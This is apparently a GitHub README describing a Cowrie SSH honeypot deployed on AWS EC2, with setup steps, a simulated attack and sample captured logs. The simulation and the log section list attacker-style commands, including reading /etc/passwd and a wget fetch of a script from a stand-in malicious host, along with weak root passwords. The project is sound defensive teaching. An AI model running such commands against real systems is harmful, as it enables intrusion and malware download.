




# SSH Honeypot using Cowrie (AWS EC2)

## 📌 Overview

This project demonstrates the deployment of an SSH honeypot using Cowrie on AWS EC2 to monitor and analyze attacker behavior in real-time.

---

## ⚙️ Setup Environment

* AWS EC2 (Ubuntu)
* Cowrie Honeypot
* SSH Port: 2222
* Publicly exposed instance

---

## 🎯 Objectives

* Capture unauthorized login attempts
* Record attacker commands
* Analyze post-compromise behavior

---

## 🔍 Attack Simulation

An attacker connected to the honeypot using weak credentials:

* Username: `root`
* Passwords tried: `123456`, `password`

After successful login, the attacker executed:

* `whoami`
* `uname -a`
* `ls`
* `pwd`
* `cat /etc/passwd`

Simulated malicious activity:

* `wget http://malicious.com/file.sh`

---

## 📊 Data Collected

* Attacker IP addresses
* Login attempts
* Command execution logs
* Session activity

---

## 📁 Project Structure

```
ssh-honeypot-cowrie/
├── logs/
├── screenshots/
├── analysis/
└── README.md
```

---

## 📸 Attack Simulation Screenshots

### 🔐 SSH Login Attempt : Shows attacker connecting to honeypot via SSH


### 💻 Commands Executed by Attacker : Attacker performing reconnaissance on the system


### 📜 Honeypot Logs Captured : Captured logs showing attacker activity



---

## 🧾 Sample Captured Logs

```bash
CMD: whoami
CMD: uname -a
CMD: ls
CMD: pwd
CMD: cat /etc/passwd
CMD: wget http://malicious.com/file.sh
```

---

## 🧠 Key Observations

* Weak passwords are heavily targeted
* Attackers perform system reconnaissance immediately after login
* Automated scripts attempt brute-force login attempts
* Malware download attempts were observed

---

## 🧠 Findings

* Attackers commonly use automated scripts
* Immediate reconnaissance is performed post-login
* Sensitive files like `/etc/passwd` are targeted
* Honeypots effectively capture attacker behavior

---

## ⚙️ Complete Setup Guide (Step-by-Step)

### 🔹 1. Launch AWS EC2 Instance

* Open AWS EC2 Console
* Select region: Asia Pacific (Mumbai) – ap-south-1
* Choose AMI: Ubuntu 22.04 / 24.04
* Instance type: t2.micro
* Create and download key pair (.pem)

---

### 🔹 2. Configure Security Group

Add inbound rules:

| Type       | Port | Source    |
| ---------- | ---- | --------- |
| SSH        | 22   | Your IP   |
| Custom TCP | 2222 | 0.0.0.0/0 |

---

### 🔹 3. Connect to EC2

```bash
ssh -i your-key.pem ubuntu@<YOUR_PUBLIC_IP>
```

---

### 🔹 4. Install Dependencies

```bash
sudo apt update
sudo apt install git python3-venv python3-pip -y
```

---

### 🔹 5. Install Cowrie Honeypot

```bash
git clone https://github.com/cowrie/cowrie
cd cowrie
python3 -m venv cowrie-env
source cowrie-env/bin/activate
pip install .
```

---

### 🔹 6. Start the Honeypot

```bash
twistd -n cowrie
```

Expected output:

```
Ready to accept SSH connections
```

---

### 🔹 7. Simulate an Attack

```bash
ssh root@<YOUR_PUBLIC_IP> -p 2222
```

Try weak passwords:

```
123456
password
admin
root
```

---

### 🔹 8. Execute Commands

```bash
whoami
uname -a
ls
pwd
cat /etc/passwd
cd /tmp
wget http://malicious.com/file.sh
```

---

### 🔹 9. Monitor Logs

```bash
tail -f ~/cowrie/var/log/cowrie/cowrie.log
```

---

### 🔹 10. Download Logs

```bash
scp -i your-key.pem ubuntu@<YOUR_PUBLIC_IP>:~/cowrie/var/log/cowrie/cowrie.log .
```

---

### 🔹 11. Extract Data

```bash
findstr "New connection" cowrie.log > ips.txt
findstr "Command found" cowrie.log > cmds.txt
```

---

## ⚠️ Note

Some sessions may not capture commands if the attacker disconnects early. In such cases, command execution is verified through screenshots and session logs.

---

## 🚀 Conclusion

The Cowrie honeypot successfully captured attacker behavior and demonstrated how honeypots can be used for threat intelligence and monitoring.

---

## 🌍 Real-World Impact

This project demonstrates how honeypots can be used for:

* Threat intelligence collection
* Early attack detection
* Security monitoring and analysis

---

## 🛠️ Tools Used

* Cowrie
* AWS EC2
* SSH
* Linux
